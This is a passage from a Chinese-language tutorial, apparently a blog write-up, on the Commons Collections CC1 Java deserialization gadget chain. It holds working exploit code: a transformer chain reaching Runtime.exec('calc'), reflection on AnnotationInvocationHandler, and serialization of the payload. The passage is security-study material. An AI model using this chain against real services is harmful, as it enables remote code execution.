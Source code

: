 ```java
        Class var7 = (Class)var3.get(var6); //根据我们构造的Map对应的Key的名字从var3中寻找对应Key的值
        //所以我们定义的Map的key必须对应注注解元素的键值对中的Key，找不到则会获取为null
        if (var7 != null) {
            Object var8 = var5.getValue(); //获取value
            if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) { //如果类型不相同则进入
                //对map进行了setValue操作，触发利用链
                var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
            }
        }
    }
}
```

构造代码

```java
Map map = new HashMap();
map.put("value", "sijidou"); //这里构造的Key值必须和Target中的value相同
Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

//通过反射获取对象
Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Target.class, transformedMap);
```

下图为Target

![img](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20210923180839.png)

完整利用代码

```java
Transformer[] transformers2 = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
Transformer transformerChain = new ChainedTransformer(transformers2);


Map map = new HashMap();
map.put("value", "test");
Map transformedMap = TransformedMap.decorate(map, null, transformerChain);


Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Target.class, transformedMap);


//序列化
FileOutputStream fileOutputStream = new FileOutputStream("serialize.txt");
ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
objectOutputStream.writeObject(instance);
objectOutputStream.close();


//反序列化
FileInputStream fileInputStream = new FileInputStream("serialize.txt");
```
